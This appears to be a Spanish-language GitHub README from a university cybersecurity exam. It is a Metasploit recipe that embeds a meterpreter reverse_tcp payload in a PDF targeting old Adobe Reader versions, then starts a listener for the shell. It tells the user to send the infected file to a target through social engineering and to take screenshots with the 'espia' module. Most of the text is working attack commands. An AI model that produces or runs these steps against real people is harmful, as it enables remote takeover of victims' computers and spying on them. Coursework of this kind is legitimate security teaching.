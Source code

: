 # -UDEM--Ciberseguridad
Parcial de Ciberseguridad

Vídeo:

Explicación: Incrusta una Carga (payload) dentro un archivo PDF existente. El archivo PDF resultante puede ser enviado al objetivo como parte de un ataque de ingeniería social.

Sistema Operativo: Windows XP SP3 (Inglés/Español) / Windows Vista / Windows 7 (Inglés)
Programas: Adobe Reader v8.x, v9.x <br />
<br />
use exploit/windows/fileformat/adobe_pdf_embedded_exe <br />
set payload windows/meterpreter/reverse_tcp <br />
set lhost <ip_maquina_local> <br />
set lport 4444 <br />
set infilename /{path}/{nombre_pdf_a_infectar}.pdf <br />
exploit <br />
<br />
back <br />
use exploit/multi/handler <br />
set lhost <ip_maquina_local> <br />
set lport 4444 <br />
exploit <br /> 
<br />
Ir a la carpeta donde se ha creado en archivo infectado <br />
Enviar archivo a la máquina que se desea atacar <br />
cuando se tenga el acceso a la máquina atacada se podrá usar todas las herramientas que tiene meterpreter<br />
<br />
load espia<br />
screengrab
